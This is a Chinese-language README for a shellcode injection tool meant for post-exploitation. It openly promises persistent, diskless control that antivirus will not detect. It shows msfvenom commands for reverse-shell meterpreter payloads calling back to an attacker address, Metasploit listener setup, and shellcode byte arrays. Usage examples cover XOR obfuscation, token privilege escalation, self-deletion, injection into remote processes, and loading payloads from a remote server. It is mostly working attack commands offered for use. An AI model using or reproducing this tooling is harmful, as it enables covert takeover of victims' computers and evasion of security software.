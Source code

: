 # Metasploit 本地ShellCode注入工具

<br>

一款本地`ShellCode`后门注入工具，工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后`Metasploit`即可获取控制权，只要对端不关机则权限会一直维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```BASH
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为`32`位与`6`4位，使用工具时需要与载荷的位数相对应。
```BASH
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

<br>

 - 工具参数列表预览
```C
Shell> InjectShellCode32.exe
  ____  _          _ _   ___        _           _
/ ___|| |__   ___| | | |_ _|_ __  (_) ___  ___| |_
\___ \| '_ \ / _ \ | |  | || '_ \ | |/ _ \/ __| __|
 ___) | | | |  __/ | |  | || | | || |  __/ (__| |_
|____/|_| |_|\___|_|_| |___|_| |_|/ |\___|\___|\__|
                                |__/

Usage: ShellCode 远程线程注入器
E-mail: me@lyshark.com

Options:
         --show              显示当前所有可注入进程
         --promote           尝试提升自身进程权限
         --delself           从系统中删除自身痕迹

 Format:
         --Format            将字节数组格式化为一行并打印
         --FormatFile        将字节数组格式化并写出到文件
         --Xor               将文本中压缩后的字节数组进行异或并输出
         --Xchg              将压缩后的字符串转为字节数组格式
         --XorArray          将字节数组加密/解密为字节数组格式

 Inject:
         --InjectSelfShell   注入字符串到自身进程并运行
         --InjectArrayByte   注入字节数组到自身进程并运行
         --FileInjectShell   从文件中读入字符串并注入运行
         --InjectProcShell   注入字符串到远程进程并运行
         --InjectWebShell    从远程加载字符串并注入自身进程

 Encode:
         --EncodeInFile      从文件读入加密字符串并执行反弹
         --EncodePidInFile   注入加密后的字符串到远程进程中
```

<br>

 - 列举出目前系统中支持注入的进程
```C
InjectShellCode32.exe --show

[*] x32 进程PID =>      4        进程名 => System
[*] x32 进程PID =>    124        进程名 => Registry
[*] x32 进程PID =>    588        进程名 => smss.exe
[*] x32 进程PID =>    836        进程名 => csrss.exe
[*] x32 进程PID =>    940        进程名 => wininit.exe
[*] x32 进程PID =>    948        进程名 => csrss.exe
[*] x32 进程PID =>   1012        进程名 => services.exe
```

 - 尝试使用令牌提权
```C
InjectShellCode32.exe --promote

[+] 获取自身Token
[+] 查询进程特权
[*] 已提升为管理员
```

 - 删除自身程序
```C
InjectShellCode32.exe --delself

[*] 自身已清除
```

 - 将攻击载荷格式化为一行纯字符串
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe Format --path d://shellcode.txt

fce88f0000006031d289e5648b52308b520c8b52140fb74a268b722831ff31c0ac3c617c022c20c1cf0d01...
```

 - 将攻击载荷格式化为一行并写出到文本
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe FormatFile --path d://shellcode.txt --output d://output_shellcode.txt
[+] 已储存 => d://output_shellcode.txt
```

 - 将一行攻击载荷进行异或处理
```C
InjectShellCode32.exe Xor --path d://output_shellcode.txt --passwd lyshark

% &{{%ssssssuspr'q{z&vuw{!vqps{!vqs {!vqrws%!tw"qu{!tqq{pr%%pr s" p urtwst{%s!v"qvuu"ssvp%%'v
```

 - 将一段压缩载荷转换成字节数组
```C
InjectShellCode32.exe Xchg --input d://output_shellcode.txt --output d://array.txt
[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt

"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
```

 - 对字节数组进行异或处理
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe XorArray --path d://array.txt --passwd lyshark

"\xbf\xab\xcc\x43\x43\x43\x23\x72\x91\xca\xa6\x27\xc8\x11\x73\xc8"
"\x11\x4f\xc8\x11\x57\x4c\xf4\x9\x65\xc8\x31\x6b\x72\xbc\x72"
"\x83\xef\x7f\x22\x3f\x41\x6f\x63\x82\x8c\x4e\x42\x84\xa\x36"
"\xac\x11\x14\xc8\x11\x53\xc8\x1\x7f\x42\x93\xc8\x3\x3b\xb3"
"\xf6\xe1\x15\x29\x43\x10\xbc\x96";
```









**将攻击载荷注入自身反弹:** 将一段压缩过的shellcode注入到自身进程并反弹权限。
```
C:\Users\admin\Desktop> sc32.exe InjectSelfShell --shellcode fce88f0000006031d2648b52308b520c***
```

**注入字节数组到自身进程:** 由于字节数组无法直接命令行方式传递，所以只能在文件中获取并压缩解码反弹。
```
C:\Users\admin\Desktop> sc32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19db64
```

**从文件中读入并注入:** 从文件中读入一段已经压缩过的shellcode并执行反弹。
```
C:\Users\admin\Desktop> sc32.exe FileInjectShell --path d://format.txt
```

**注入攻击载荷到远程进程:** 该功能主要用于将代码注入到远程进程中，此处参数已经规范化。
```
C:\Users\admin\Desktop> sc32.exe InjectProcShell --pid 17948 --shellcode fce88f0000****
```

**从远程加载载荷并注入:** 从远程Web服务器上获取到需要注入的代码，远程服务器保存一行格式字符串即可。
```
C:\Users\admin\Desktop> sc32.exe InjectWebShell --address 127.0.0.1 --payload shellcode.raw
```

**直接运行加密的攻击载荷:** 加密模块可以直接运行被加密过后的shellcode并反弹，注入时需要传递解码密码。
```
C:\Users\admin\Desktop> sc32.exe EncodeInFile --path d://encode.txt --passwd lyshark
```

**加密注入远程进程反弹:** 直接注入加密后的代码到远程进程中，实现方式如上。
```
C:\Users\admin\Desktop> sc32.exe EncodePidInFile --pid 17480 --path d://encode.txt --passwd lyshark
```
